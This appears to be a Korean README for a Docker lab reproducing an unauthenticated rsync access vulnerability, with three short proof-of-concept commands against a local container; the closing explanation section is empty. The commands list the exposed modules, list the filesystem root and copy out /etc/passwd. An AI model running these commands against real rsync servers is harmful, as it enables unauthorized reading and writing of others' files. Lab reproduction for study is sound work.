

# rsync 무단 접근 취약점

rsync는 SSH와 rsync를 이용하여 원격 파일 전송을 지원하는 Linux용 데이터 백업 도구입니다.
만약 대상에 rsync가 활성화가 되어있고, 이에 대해 ACL(Access Control Line)이나 별도의 비밀번호가 설정되어있지 않다면 무단으로 해당 machine에 접근하여 파일을 읽고 쓸 수 있습니다

## Container 환경 구축
```
docker compose build
docker compose up -d
```
Container가 올라가는 시간이 좀 길어서 넉넉잡아 10분정도 기다리셔야 합니다

## PoC
모든 PoC 코드는 shell script로 동일하게 작성이 되어있기에 해당 스크립트를 이용하셔도 됩니다.
poc1.sh
```
rsync rsync://localhost:873/
```


poc2.sh
```
rsync rsync://localhost:873/src/
```
위 코드를 이용하면 Container(machine)의 / 경로의 모든 파일들을 출력한다.



poc3.sh
```
rsync -av rsync://localhost:873/src/etc/passwd ./
```
위 코드를 이용하면 Container(machine)의 passwd 파일을 현재 directory에 passwd 파일을 생성하여 기록한다.


## 이유

